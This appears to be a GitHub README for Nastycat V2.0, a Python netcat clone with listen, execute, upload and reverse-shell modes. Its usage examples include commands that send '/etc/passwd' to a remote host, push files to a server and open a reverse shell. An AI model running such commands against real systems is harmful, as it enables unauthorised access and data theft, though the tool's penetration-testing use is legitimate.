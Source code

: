 # Nastycat V2.0

Nastycat is a tool completely made using python for replacing NetCat utility. The first version uses the pwntools framework which is not natively installed with installation of python. But this 2.0 version does not use any libraries that are not preinstalled with python. This allows it to be useful in many situation where the first version would not. Moreover it offers better features than that previous one.

CREDIT - The concept of this tool is from Black Hat Python by Justin Seitz.

## Features

It is very likely to original NetCat.
- It can connect to a server and deliver data on both sides.
- It can also listen for connections on a specific port.

A great feature includes execute mode.
- When specified with listening mode, it executes specified command on local system and starts a server. When someone connects to it, delivers the output.
- Else it will execute the command and send output to the server.

Also includes an upload mode.
- When in listening mode, receives the client output and saves it to the specified file.
- When connected to a server, sends the contents of the specified file to the server.

Now a shell mode is included.
- When enabled with listening mode, activates a server, when a client connects, provides the client access to the server machine's terminal. When client disconnects, repeats the same until it is manually killed.
- When enabled in client mode, invokes an actual reverse shell payload to be sent to the server which allows the server to access the client's terminal.

Note - This is now only supported in linux or linux based operating systems. It does not works as it is supposed to in windows systems.

## Examples

```bash
python3 ./nastycat_v2.py 192.168.3.41 -p 4444 # connect to server at port 4444
```
```bash
python3 ./nastycat_v2.py -l # listens on default port 4444
```
```bash
python3 ./nastycat_v2.py -lp 5555 # listens on port 5555
```
```bash
python3 ./nastycat_v2.py -e "cat /etc/passwd" 192.168.3.41 -p 8080 # sends the output to port 8080
```
```bash
python3 ./nastycat_v2.py -le "cat /etc/passwd" # listens on port 4444 and sends the output when client connects
```
```bash
python3 ./nastycat_v2.py -lu test.txt # receive client data and save it to specified file.
```
```bash
python3 ./nastycat_v2.py -u file.txt 192.168.3.41 -p 8080 # read the file contents and send it to the server.
```
```bash
echo -ne "GET / HTTP/1.1\r\nHost: www.google.com\r\n\r\n" | python3 ./nastycat_v2.py google.com 80 # same old school method of invoking web requests.
```
```bash
python3 ./nastycat_v2.py -s 192.168.3.41 -p 5555 # sends an actual reverse shell payload to the server. Note - do not works in windows.
```
```bash
python3 ./nastycat_v2.py -ls # starts a server, when a client connects, gets access to the servers terminal.
```

Note - This may require root priviledges.

## Contribution
Any body can voluntarily contribute to this project if he/she has a better idea.
If so, please contact me on my [Insta Handle](https://www.instagram.com/sayanray385/).
